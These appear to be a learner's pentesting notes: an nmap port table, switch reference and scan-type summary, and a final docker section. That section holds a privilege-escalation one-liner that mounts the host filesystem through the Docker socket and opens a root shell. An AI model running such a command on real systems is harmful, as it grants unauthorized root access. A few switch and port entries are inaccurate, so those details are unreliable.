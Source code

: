 #+TITLE: Notes

* nmap
: nmap is the industry standard port scanner/enumeration tool
: there are 65535 ports on a computer
: a (http) webservice can be found on port 80
: a (https) webservice can be found on port 443
#+begin_src bash
(port) (service)

1 	TCP Port Service Multiplexer (TCPMUX)
5 	Remote Job Entry (RJE)
7 	ECHO
18 	Message Send Protocol (MSP)
20 	FTP — Data
21 	FTP — Control
22 	SSH Remote Login Protocol
23 	Telnet
25 	Simple Mail Transfer Protocol (SMTP)
29 	MSG ICP
37 	Time
42 	Host Name Server (Nameserv)
43 	WhoIs
49 	Login Host Protocol (Login)
53 	Domain Name System (DNS)
69 	Trivial File Transfer Protocol (TFTP)
70 	Gopher Services
79 	Finger
80 	HTTP
103 	X.400 Standard
108 	SNA Gateway Access Server
109 	POP2
110 	POP3
115 	Simple File Transfer Protocol (SFTP)
118 	SQL Services
119 	Newsgroup (NNTP)
137 	NetBIOS Name Service
139 	NetBIOS Datagram Service
143 	Interim Mail Access Protocol (IMAP)
150 	NetBIOS Session Service
156 	SQL Server
161 	SNMP
179 	Border Gateway Protocol (BGP)
190 	Gateway Access Control Protocol (GACP)
194 	Internet Relay Chat (IRC)
197 	Directory Location Service (DLS)
389 	Lightweight Directory Access Protocol (LDAP)
396 	Novell Netware over IP
443 	HTTPS
444 	Simple Network Paging Protocol (SNPP)
445 	Microsoft-DS
458 	Apple QuickTime
546 	DHCP Client
547 	DHCP Server
563 	SNEWS
569 	MSN
1080 	Socks
#+end_src
** switches
-Ss
: syn scan
-sU
: udp scan
-O
: os detection
-sV
: service version detection
-v
: increase verbosity
-vv
: verbosity level 2
-oA
: output all formats (gnmap, xml, nmap)
-oN
: output normal format
-oG
: output in grepable format
-A
: shorthand switch that activates service detection, operating system detection, a traceroute and common script scanning
-T5
: set timing template level 5
-p
: set port
-p 1000-1500
: scan port 1000 to 1500
-p-
: scan all ports
--script
: activate a script
--script=vuln
: activate all scripts in the (vuln) category
** scan types
#+begin_src bash
When port scanning with Nmap, there are three basic scan types. These are:

    TCP Connect Scans (-sT)
    SYN "Half-open" Scans (-sS)
    UDP Scans (-sU)

Additionally there are several less common port scan types, some of which we will also cover (albeit in less detail). These are:

    TCP Null Scans (-sN)
    TCP FIN Scans (-sF)
    TCP Xmas Scans (-sX)

Most of these (with the exception of UDP scans) are used for very similar purposes, however, the way that they work differs between each scan. This means that, whilst one of the first three scans are likely to be your go-to in most situations, it's worth bearing in mind that other scan types exist.

In terms of network scanning, we will also look briefly at ICMP (or "ping") scanning.
#+end_src

* docker
- docker images
  : lists the docker images in system

- privesc
  : docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host /bin/bash
